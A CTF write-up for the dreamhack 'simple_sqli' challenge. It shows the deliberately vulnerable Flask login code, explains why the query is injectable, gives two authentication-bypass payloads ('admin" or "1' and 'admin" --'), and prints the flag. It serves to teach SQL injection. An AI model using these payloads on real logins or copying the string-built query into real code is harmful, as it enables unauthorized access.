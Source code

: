 ```yaml
---
title: simple_sqli
author: thanguyen165
date: 2023-01-01 07:00:00 +0700
categories: [Practice, dreamhack]
tags: [Web Exploitation, dreamhack]
---
```


* Level: 1
* Link: [https://dreamhack.io/wargame/challenges/24/](https://dreamhack.io/wargame/challenges/24/)

## Description
>
> This is a login service.
>
> Obtain the flag through the SQL INJECTION vulnerability. The flags are in the ```flag.txt```, ```FLAG``` variable.

### Attached

```python
#!/usr/bin/python3
from flask import Flask, request, render_template, g
import sqlite3
import os
import binascii

app = Flask(__name__)
app.secret_key = os.urandom(32)

try:
    FLAG = open('./flag.txt', 'r').read()
except:
    FLAG = '[**FLAG**]'

DATABASE = "database.db"
if os.path.exists(DATABASE) == False:
    db = sqlite3.connect(DATABASE)
    db.execute('create table users(userid char(100), userpassword char(100));')
    db.execute(f'insert into users(userid, userpassword) values ("guest", "guest"), ("admin", "{binascii.hexlify(os.urandom(16)).decode("utf8")}");')
    db.commit()
    db.close()

def get_db():
    db = getattr(g, '_database', None)
    if db is None:
        db = g._database = sqlite3.connect(DATABASE)
    db.row_factory = sqlite3.Row
    return db

def query_db(query, one=True):
    cur = get_db().execute(query)
    rv = cur.fetchall()
    cur.close()
    return (rv[0] if rv else None) if one else rv

@app.teardown_appcontext
def close_connection(exception):
    db = getattr(g, '_database', None)
    if db is not None:
        db.close()

@app.route('/')
def index():
    return render_template('index.html')

@app.route('/login', methods=['GET', 'POST'])
def login():
    if request.method == 'GET':
        return render_template('login.html')
    else:
        userid = request.form.get('userid')
        userpassword = request.form.get('userpassword')
        res = query_db(f'select * from users where userid="{userid}" and userpassword="{userpassword}"')
        if res:
            userid = res[0]
            if userid == 'admin':
                return f'hello {userid} flag is {FLAG}'
            return f'<script>alert("hello {userid}");history.go(-1);</script>'
        return '<script>alert("wrong");history.go(-1);</script>'

app.run(host='0.0.0.0', port=8000)

```

## Analyzation

Let's check the login function

```python
@app.route('/login', methods=['GET', 'POST'])
def login():
    if request.method == 'GET':
        return render_template('login.html')
    else:
        userid = request.form.get('userid')
        userpassword = request.form.get('userpassword')
        res = query_db(f'select * from users where userid="{userid}" and userpassword="{userpassword}"')
        if res:
            userid = res[0]
            if userid == 'admin':
                return f'hello {userid} flag is {FLAG}'
            return f'<script>alert("hello {userid}");history.go(-1);</script>'
        return '<script>alert("wrong");history.go(-1);</script>'
```

If we make input to ```userid```
```
admin" or "1
```

Then the query will be
```sql
select * from users where userid="admin" or "1" and userpassword="{userpassword}"
```

In SQL, ```and``` has precedence over ```or``` (check [stackoverflow.com](https://stackoverflow.com/questions/1241142/sql-logic-operator-precedence-and-and-or)). So the password condition shall be bypassed.

Another way: giving the ```userid```
```
admin" --
```

Then the query will be
```sql
select * from users where userid="admin" -- and userpassword="{userpassword}"
```

The password condition is disabled since it has been changed to comment (check [w3schools.com](https://www.w3schools.com/Sql/sql_comments.asp)).

## Solution

Input for ```userid```
```
admin" or "1
```
or
```
admin" --
```
and random password, the flag will show up

The flag is
```
DH{c1126c8d35d8deaa39c5dd6fc8855ed0}
```

## Summarization

[SQL Injection](https://owasp.org/www-community/attacks/SQL_Injection)